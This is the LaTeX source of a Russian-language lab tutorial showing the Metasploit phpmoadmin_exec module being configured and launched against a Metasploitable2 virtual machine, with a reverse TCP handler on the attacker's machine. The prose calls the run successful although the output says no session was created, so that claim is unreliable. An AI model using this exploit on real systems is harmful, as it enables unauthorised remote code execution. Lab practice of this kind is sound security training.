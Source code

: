 \documentclass[10pt,a4paper,titlepage]{article}
\begin{document}
\begin{verbatim}
msf > use exploit/multi/http/phpmoadmin_exec
msf exploit(phpmoadmin_exec) > 
\end{verbatim}
Команда show options покажет параметры эксплоита.
\begin{verbatim}
msf exploit(phpmoadmin_exec) > show options

Module options (exploit/multi/http/phpmoadmin_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path of the PHPMoAdmin page
   VHOST                       no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   PHPMoAdmin
\end{verbatim}
Видно, что из необходимых параметров нужно установить адрес хоста. Установим этот параметр командой set(виртуальная машина Metasploitable2 имеет адрес 192.168.226.134) и запустим эксплоит командой exploit.
\begin{verbatim}
msf exploit(phpmoadmin_exec) > set RHOST 192.168.226.134
RHOST => 192.168.226.134
msf exploit(phpmoadmin_exec) > exploit

[*] Started reverse TCP handler on 192.168.226.135:4444 
[*] Executing payload...
[*] Exploit completed, but no session was created.
\end{verbatim}
Эксплоит был выполнен успешно, для выхода нужно набрать команду back.
\begin{verbatim}
msf exploit(phpmoadmin_exec) > back
\end{verbatim}
\end{document}
